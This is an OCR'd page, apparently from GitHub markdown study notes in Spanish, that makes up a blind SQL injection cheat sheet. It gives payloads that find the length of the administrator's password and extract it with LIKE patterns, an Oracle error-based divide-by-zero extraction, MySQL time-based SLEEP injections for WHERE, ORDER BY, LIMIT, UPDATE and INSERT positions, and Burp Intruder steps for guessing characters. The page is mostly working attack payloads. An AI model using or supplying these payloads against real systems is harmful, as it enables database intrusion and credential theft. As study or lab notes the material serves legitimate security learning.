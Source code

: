 3- Calcular tamaño del campo:
```sql
  a' OR (SELECT password FROM users WHERE username = 'administrator') LIKE '____________________'--
```

4- Conocer el valor del campo:
```sql
    a' OR (SELECT password FROM users WHERE username = 'administrator') LIKE '$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$$_$'--
```

  - ORACLE Provocar errores
1- Provocar calculos invalidos como dividir entre 0:
  -> Payload 1: numeros 1 al tamaño del campo
  -> payload 2: caracteres y numeros
```sql
    a' OR (SELECT CASE WHEN (SUBSTR(password,$payload1$,1)='$payload2$') THEN 'a' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') = 'a'-- 
```

- Time based:
  - Es en base a una función boleana, donde sí el tiempo de espera a la respuesta es mayor a la normal, significa que evalua la función como true y manda a hacer un sleep, o función que ralentiza su ejecución.
    - MYSQL:

1 - Posición: Dependiendo de en que posición de la ejecución, pero los payloads más sencillos para mysql v5 es:
```sql
      -- CAMPOS:
        Select $<SLEEP(5)> FROM users;
      -- WHERE:
        SELECT * FROM users WHERE username = '$<' OR SLEEP(5)--> -';
      -- ORDER BY:
        SELECT * FROM users ORDER BY $<IF(1=1, SLEEP(5), 1)>;
      -- HAVING:
        SELECT COUNT(\*) FROM users GROUP BY role HAVING COUNT(*) > 0 $<OR SLEEP(5)>;
      -- LIMIT:
        SELECT * FROM users LIMIT 1 $<OFFSET (SELECT SLEEP(5))>;
      -- IN:
        SELECT * FROM users WHERE id IN $<(SELECT id FROM users WHERE SLEEP(5))>;
      -- UPDATE:
        UPDATE users SET email = '$payload' WHERE id = 1; $payload= test@example.com', SLEEP(5), email='test2@example.com
      -- INSERT:
        INSERT INTO logs (message) VALUES ('$payload'); $payload= x'), (SLEEP(5)), ('y
```
2 - Validar: A partir de aquí primero debemos ejecutar una función donde validaremos que podemos hacer validaciones boleanas, con una función que en teoria casi siempre deberia funcionar, por ejemplo esta función va a hacer sleep sí encuentra que database contiene algun caracter:
```sql
      ' AND (SELECT SLEEP(1) FROM DUAL WHERE DATABASE() LIKE '%')#
```
3 - Contar caracteres: Podemos usar like '__' para ir incrementandolo hasta encontrar la cantidad de caracteres correcta:
```sql
      ' AND (SELECT SLEEP(1) FROM DUAL WHERE DATABASE() LIKE '__')# Sí falso = no esperar tiempo
      ' AND (SELECT SLEEP(1) FROM DUAL WHERE DATABASE() LIKE '___')# Sí verdadero = espera 1 segundo
```
4 - Adivinar caracteres: Usando "Intruder" y "Sniper Attack", incrustamos el mismo payload con caracteres o numeros, y en "Resouce Pool" solo ponemos un "request" como maximo y solo buscamos los que tarden más en responder
